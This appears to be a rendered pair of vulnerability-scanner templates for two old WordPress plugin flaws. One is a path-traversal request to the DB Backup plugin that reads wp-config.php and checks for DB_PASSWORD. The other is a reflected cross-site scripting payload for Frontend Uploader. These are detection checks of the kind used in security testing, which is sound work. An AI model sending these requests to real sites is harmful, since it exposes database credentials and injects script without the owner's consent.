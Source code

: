 # WordPress DB Backup \<=4.5 - Local File Inclusion
## Description
- WordPress Plugin DB Backup 4.5 and possibly prior versions are prone to a local file inclusion vulnerability because they fail to sufficiently sanitize user-supplied input. Exploiting this issue can allow an attacker to obtain sensitive information that could aid in further attacks.

- severity - high
- tags - lfi,cve,cve2014,wordpress,wp-plugin,wp,backup,wpscan,edb
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/db-backup/download.php?file=../../../wp-config.php
### Matchers

**Type - word**
- part - body
- words
    1. DB_NAME
    2. DB_PASSWORD
- condition - and

**Type - status**
- status
    1. 200

---
# Frontend Uploader \<= 0.9.2 - Cross-Site Scripting
## Description
- The Frontend Uploader WordPress plugin prior to v.0.9.2 was affected by an unauthenticated Cross-Site Scripting security vulnerability.
- severity - medium
- tags - wp-plugin,xss,wpscan,packetstorm,cve,cve2014,wordpress,unauth
## Requests
- Method - GET
### URL
- {{BaseURL}}/?page_id=0&&errors[fu-disallowed-mime-type][0][name]=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body
